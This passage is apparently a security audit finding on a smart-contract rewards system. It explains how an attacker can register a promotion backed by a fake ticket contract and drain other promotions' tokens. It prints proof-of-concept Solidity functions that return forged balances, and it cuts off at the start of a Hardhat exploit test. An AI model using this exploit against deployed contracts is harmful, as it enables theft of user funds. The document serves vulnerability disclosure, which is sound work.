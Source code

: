 It allows an attacker to retrieve all the tokens of each promotions.

#### Analysis

Anyone can create a new promotion using `createPromotion()`. An attacker can create a new malicious promotion with the following parameters:

*   the address of a malicious ticket smart contract
*   the token address from the targeted promotion(s)
*   optionally, `_numberOfEpochs` equal to 0 to create this promotion for free

The only verification made on the ticket address given by [\_requireTicket()](https://github.com/pooltogether/v4-periphery/blob/master/contracts/TwabRewards.sol#L230-L244) is that the smart contract must implement the `ITicket` interface.

The attacker can then call `claimRewards()` with its wallet address, the malicious promotion id and a single \_epochId for the sake of clarity.

1.  `_calculateRewardAmount()` is first called to get the reward amount with the following formula `(_promotion.tokensPerEpoch * _ticket.getAverageBalanceBetween()) / _ticket.getAverageTotalSuppliesBetween()`. The malicious ticket can return an arbitrary  `_averageBalance` and an `_averageTotalSupplies` of 1, leading to an arbitrary large reward amount.

2.  `_promotion.token.safeTransfer(_user, _rewardsAmount)` is called. It transfers the amount of tokens previously computed to the attacker.

The attacker receives the tokens of other promotions without having spent anything.

#### Proof of Concept

The malicious smart contract is a copy/paste of [TicketHarness.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/test/TicketHarness.sol) and [Ticket.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/Ticket.sol) with the following changes:

        /// @inheritdoc ITicket
        function getAverageTotalSuppliesBetween(
            uint64[] calldata _startTimes,
            uint64[] calldata _endTimes
        ) external view override returns (uint256[] memory) {
            uint256[] memory _balances = new uint256[](1);
            _balances[0] = uint256(1);
            return _balances;
        }

        /// @inheritdoc ITicket
        function getAverageBalanceBetween(
            address _user,
            uint64 _startTime,
            uint64 _endTime
        ) external view override returns (uint256) {
            return 1337;
        }

The test for HardHat is:

        describe('exploit()', async () => {
            it('this shouldnt happen', async () => {
                const promotionIdOne = 1;
                const promotionIdTwo = 2;
